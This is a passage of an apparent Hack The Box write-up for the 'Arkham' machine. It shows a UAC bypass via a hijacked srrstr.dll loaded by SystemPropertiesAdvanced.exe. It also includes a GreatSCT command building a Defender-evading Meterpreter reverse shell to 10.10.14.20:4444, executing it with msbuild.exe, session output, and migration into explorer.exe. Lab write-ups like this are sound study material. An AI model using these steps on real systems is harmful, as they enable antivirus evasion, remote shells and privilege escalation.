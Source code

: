We can't just cat root.txt yet, since it's in a different users folder the UAC prompt is popping up and we can't see it. No worries as there are a ton of different UAC bypasses we can look at in this awesome repo https://github.com/hfiref0x/UACME. We should try using a DLL hijack method from HTB member egre55 that is unpatched on windows 10 and up. For this we need to place a payloaded DLL file renamed srrstr.dll in a users /windowsapps folder, then run the binary SystemPropertiesAdvanced.exe which autoelevates to a high integrity process, it then calls our malicious DLL and we can execute something. We also need to be in a process running in session 1, at the moment we're on the PSRemoting process which uses session 0. So for that we can use meterpreter and migrate easily. You can read about egre55's UAC bypass on his blog here https://egre55.github.io/system-properties-uac-bypass/

To start we need to "crypt" a meterpreter shell so that it can bypass windows defender, we can use something like https://github.com/GreatSCT/GreatSCT or https://github.com/Genetic-Malware/Ebowla which is no longer updated but still works. First off, create a meterpeter payload in GreatSCT:
```
$ ./GreatSCT.py --ip 10.10.14.20 --port 4444 -o 740i -t Bypass -p msbuild/meterpreter/rev_tcp.py
===============================================================================
                                   Great Scott!
===============================================================================
      [Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker
===============================================================================

 [*] Language: msbuild
 [*] Payload Module: msbuild/meterpreter/rev_tcp
 [*] MSBuild compiles for  us, so you just get xml :)
 [*] Source code written to: /usr/share/greatsct-output/source/740i.xml
 [*] Metasploit RC file written to: /usr/share/greatsct-output/handlers/740i.rc
```
This gives us an .rc script to run for the handler and a .xml file we copy to the Batman desktop and execute with msbuild.exe. It hangs and sends a shell.
```cmd
C:\Users\Batman\Desktop>C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe 740i.xml
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe 740i.xml
Microsoft (R) Build Engine version 4.7.3190.0
[Microsoft .NET Framework, version 4.0.30319.42000]
Copyright (C) Microsoft Corporation. All rights reserved.

Build started 8/17/2019 3:09:04 AM.
```
Now in our new meterpreter shell, we can migrate to a GUI process in session 1 like so. 
```bash
[*] Sending stage (179779 bytes) to 10.10.10.130
[*] Meterpreter session 1 opened (10.10.14.20:4444 -> 10.10.10.130:49710) at 2019-08-16 17:46:19 -0400

msf5 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > ps

Process List
============

 PID   PPID  Name                     Arch  Session  User           Path
 ---   ----  ----                     ----  -------  ----           ----
 0     0     [System Process]
 4     0     System
 76    620   svchost.exe
--snip--
 5076  5052  explorer.exe             x64   1        ARKHAM\Batman  C:\Windows\explorer.exe
 5100  5116  cmd.exe                  x64   0        ARKHAM\Batman  C:\Windows\System32\cmd.exe
 5116  3832  nc64.exe                 x64   0        ARKHAM\Batman  C:\Users\Batman\Desktop\nc64.exe

meterpreter > migrate 5076
[*] Migrating from 4260 to 5076...
```

[arkham]: PS C:\Users\Batman\Documents> whoami